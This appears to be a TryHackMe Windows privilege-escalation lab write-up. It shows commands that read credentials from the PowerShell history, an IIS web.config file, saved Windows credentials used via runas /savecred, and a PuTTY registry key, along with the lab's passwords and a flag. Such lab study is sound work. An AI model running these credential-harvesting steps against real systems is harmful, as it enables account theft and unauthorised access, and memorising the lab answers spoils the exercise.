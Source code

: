 #### A password for the julia.jones user has been left on the Powershell history. What is the password?

PS type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z


#### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>

    

#### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

PS C:\Users\thm-unpriv> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

    PS C:\Users\thm-unpriv> runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
PS C:\Users\thm-unpriv> whoami
wprivesc1\thm-unpriv
PS C:\Users\thm-unpriv>


C:\Windows\system32>whoami
wprivesc1\mike.katz


THM{WHAT_IS_MY_PASSWORD}


#### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?


PS C:\Users\thm-unpriv> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1
